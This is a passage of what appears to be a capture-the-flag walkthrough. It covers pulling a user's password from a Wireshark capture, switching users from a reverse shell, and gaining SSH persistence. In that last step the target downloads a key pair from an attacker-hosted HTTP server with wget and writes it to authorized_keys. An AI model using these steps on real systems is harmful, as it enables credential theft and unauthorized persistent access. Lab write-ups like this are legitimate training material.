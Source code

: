 
## <ins>Wireshark enumeration:</ins>
  
Open wireshark and load the downloaded file.
  
Mark the first log file and scroll through with the down arrow key. At the bottom of wireshark you see on the left side
the output of hex and on the right side parts of stings. So have a look at the string, when your scroll through.
After file number **152** we could see that a user name **lxxxx** are at his home directory at try to open folder or files.
He stuck at the point "he had no permissions" and get a command sudo-l. Now we get closer, cause he had to input his password!
The string 177 give us the password and we saved it to our local credential file named creds.txt with the `echo lxxxx:xxxxxxxxxxx > creds.txt`.
  
  
---
  


# <ins>Privilege escalation:</ins>
  


## <ins>Escalate to User:</ins>
  
With our credentials out of wireshark we could change to user of our reverse shell from **www-date** to **lxxxx**
with `su lxxxxx`.  
  
Now we escalate to a higher user. At this point I often check first for ssh to get a better connection.  
  

---
  



### <ins>ssh connection for user User:</ins>
  
!!!#Spoileralert# From now on i dont hide the username. !!! 
  


@local:   
`ssh-keygen` name = lennie_rsa, other inputs all check with enter
`sudo python -m SimpleHTTPServer 4444`

@target.thm:  
`cd` #go to home directory
`mkdir .ssh`, `cd .ssh`
`wget http://10.11.19.12:4444/lenni_rsa.pub`  
`wget http://10.11.19.12:4444/lenni_rsa`  
`echo "$(cat lenni_rsa.pub)" > authorized_keys`
  